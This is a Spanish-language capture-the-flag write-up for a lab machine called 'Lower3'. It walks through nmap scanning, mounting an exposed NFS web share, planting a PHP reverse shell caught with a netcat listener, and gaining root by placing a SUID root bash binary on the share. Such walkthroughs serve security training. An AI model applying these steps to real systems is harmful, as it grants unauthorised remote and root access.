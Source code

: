 # Máquina Lower3

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)


### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.137

![alt text](image-1.png)


### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,111,2049,42209,46301,54087,54875 vvv -Pn 192.168.42.137

![alt text](image-2.png)

![alt text](image-3.png)


### Explotación

Como se trata del protocolo NFS lo que haremos es listar los recursos compartidos:

showmount -e 192.168.42.137

![alt text](image-4.png)

significa que podemos traernos el sistema de archivos de /var/www/html

creamos una carpeta para montarnos el sistema

creamos una carpeta para montarnos el sistema:

mkdir -p /mnt/nfs_share

montamos el sistema

sudo mount -t nfs 192.168.42.137:/var/www/html /mnt/nfs_share

creamos una reverse shell:

nano /mnt/nfs_share/reverse.php

el contenido es la reverse shell de pentestmonkey

![alt text](image-5.png)

luego nos ponemos en ecucha con el puerto que le asignamos en el reverse.php

nc -lvnp 443

y en la url:

http://192.168.42.137/reverse.php

![alt text](image-6.png)

![alt text](image-7.png)

### user.txt

![alt text](image-8.png)

### Escalar privilegios

en la máquina víctima:

copiamos el /bin/bash a nuestro sistema de archivos compartidos /var/www/html

en la máquina atacante:

cambiamos el propietario a root y grupo a root:

sudo chown root:root ./bash

Cambiamos los permisos de un archivo y activamos el bit SUID (Set User ID) para el usuario propietario del archivo:

sudo chmod u+s ./bash

En la máquina víctima:

./bash -p

![alt text](image-9.png)

![alt text](image-10.png)

### root.txt

![alt text](image-11.png)